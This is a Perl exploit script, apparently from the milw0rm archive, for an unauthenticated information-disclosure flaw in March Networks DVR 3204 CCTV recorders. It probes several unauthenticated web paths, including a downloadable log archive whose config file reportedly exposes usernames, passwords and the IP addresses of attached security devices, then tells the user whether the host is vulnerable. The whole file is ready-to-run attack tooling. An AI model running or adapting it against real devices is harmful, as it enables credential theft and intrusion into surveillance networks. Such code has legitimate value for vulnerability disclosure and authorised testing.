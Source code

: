 EXP
---

    #!/usr/bin/perl
    #
    # March Networks DVR 3204 Logfile Information Disclosure Exploit
    #
    # Since configuration of the IP address, user console and root is
    # carried out over the "administrator console", the vulnerability
    # lies within Watchdog's HTTP server application.
    #
    # Any user can obtain the log files without authentication by accessing
    # the following PATH http:/dvraddress/scripts/logfiles.tar.gz. The intruder
    # can then uncompress the tar file and access the config.dat to reveal
    # username and passwords, names of devices, and IP addresses of other
    # security components attached to the corporate networ
    #
    # More details:
    # http://www.sybsecurity.com/resources/static/
    # An_Insecurity_Overview_of_the_March_Networks_DVR-CCTV_3204.pdf
    #
    # By Alex Hernandez ahernandez [at] sybsecurity [dot] com
    #
    # Usage: perl -x dvr3204_exp.pl www.marchnetworks.com:80
    # Usage: perl -x dvr3204_exp.pl 127.0.0.1:80
    #
    # $ perl -x dvr3204_exp.pl 10.50.10.246:80
    # Trying...
    #
    # THIS HOST IS VULNERABLE!!! :-)
    # Check the details on w w w [dot] sybsecurity [dot] c o m
    #
    # THIS HOST IS NOT VULNERABLE :-(
    # Check the settings on browser...
    #
    #

    use Socket;

    if ($#ARGV<0) {die "
    \nMarch Networks DVR 3204 exploit\n
    More details: http://www.sybsecurity.com
    By Alex Hernandez\n
    ahernandez [at] sybsecurity [dot] com\n

    Usage: perl -x $0 www.marchnetworks.com:80
    Usage: perl -x $0 127.0.0.1:80\n\n";}

    ($host,$port)=split(/:/,@ARGV[0]);

    print "Trying...\n\n";
    $target = inet_aton($host);
    $flag=0;

    my @results=sendraw("GET /Level1Authenticate.htm HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /UserAuthenticate.htm HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /public/index.htm HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /public/UpgradeStatus.htm HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /public/UpgradeHistory.htm HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /public/UpgradeHistory.txt HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /public/dvrlog HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    my @results=sendraw("GET /scripts/logfiles.tar.gz HTTP/1.0\r\n\r\n");
    foreach $line (@results){
     if ($line =~ /Directory/) {$flag=1;}}

    if ($flag==1){print "THIS HOST IS VULNERABLE!!! :-)\n
    Check the details on www [dot] sybsecurity [dot] com\n";}
    else {print "THIS HOST IS NOT VULNERABLE :-( \n
    Check the settings on browser...\n";}

    sub sendraw {
            my ($pstr)=@_;
            socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp')||0) ||
                    die("Socket problems\n");
            if(connect(S,pack "SnA4x8",2,$port,$target)){
                    my @in;
                    select(S); $|=1; print $pstr;
                    while(<S>){ push @in, $_;}
                    select(STDOUT); close(S); return @in;
            } else { die("Can't connect check the port or address...\n"); }
    }

    # milw0rm.com [2007-12-27]